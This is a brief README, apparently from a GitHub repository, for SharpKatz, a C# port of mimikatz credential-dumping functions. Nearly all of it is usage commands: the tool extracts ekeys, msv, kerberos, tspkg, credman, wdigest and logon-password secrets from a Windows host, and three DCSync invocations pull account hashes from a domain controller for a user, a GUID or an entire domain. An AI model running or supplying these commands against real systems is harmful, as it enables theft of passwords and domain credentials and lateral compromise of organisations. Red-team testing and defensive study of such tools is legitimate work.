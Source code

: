 # SharpKatz
Porting of mimikatz sekurlsa::logonpasswords,  sekurlsa::ekeys and lsadump::dcsync

**Usage**

Ekeys

SharpKatz.exe --Command ekeys

Msv

SharpKatz.exe --Command msv

Kerberos

SharpKatz.exe --Command kerberos

Tspkg

SharpKatz.exe --Command tspkg

Credman

SharpKatz.exe --Command credman

Wdigest

SharpKatz.exe --Command wdigest

Logonpasswords

SharpKatz.exe --Command logonpasswords

DCSync

SharpKatz.exe --Command dcsync --User user --Domain userdomain --DomainController dc
SharpKatz.exe --Command dcsync --Guid guid --Domain userdomain --DomainController dc
SharpKatz.exe --Command dcsync --Domain userdomain --DomainController dc
